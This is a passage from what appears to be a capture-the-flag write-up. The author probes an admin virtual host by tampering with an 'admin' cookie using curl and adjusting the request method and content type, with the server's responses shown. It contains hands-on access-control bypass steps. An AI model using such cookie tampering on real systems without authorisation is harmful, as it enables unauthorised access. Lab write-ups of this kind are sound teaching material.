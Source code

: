 > curl -v 'http://104.236.20.43/' -H 'Host: admin.acme.org'

```
> GET / HTTP/1.1
> Host: admin.acme.org
> 
< HTTP/1.1 200 OK
< Set-Cookie: admin=no
<
```

So, the page sets a cookie called "admin" to "no". Let's see what happens if we change it to "yes".

> curl -v 'http://104.236.20.43/' -H 'Host: admin.acme.org' -b admin=yes

```
> GET / HTTP/1.1
> Host: admin.acme.org
> Cookie: admin=yes
>
< HTTP/1.1 405 Method Not Allowed
<
```

We are not allowed to do GET requests here, let's try POST instead.

> curl -v -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -b admin=yes

```
> POST / HTTP/1.1
> Host: admin.acme.org
> Cookie: admin=yes
>
< HTTP/1.1 406 Not Acceptable
<
```

There is something else with out request that is incorrect.
Here I consulted the [MDN documentation on HTTP 406](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/406) which led me to try various values for the "Accept-\*" headers. 
Eventually I realized that there are different ways to deliver data in a POST request. Probably the most common way to do it in modern applications nowadays is using JSON, so I tried changing the Content-Type header accordingly.

> curl -v -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes

```
> POST / HTTP/1.1
> Host: admin.acme.org
> Cookie: admin=yes
> Content-Type: application/json
> 
< HTTP/1.1 418 I'm a teapot
< Content-Type: application/json
< 
{"error":{"body":"unable to decode"}}
```
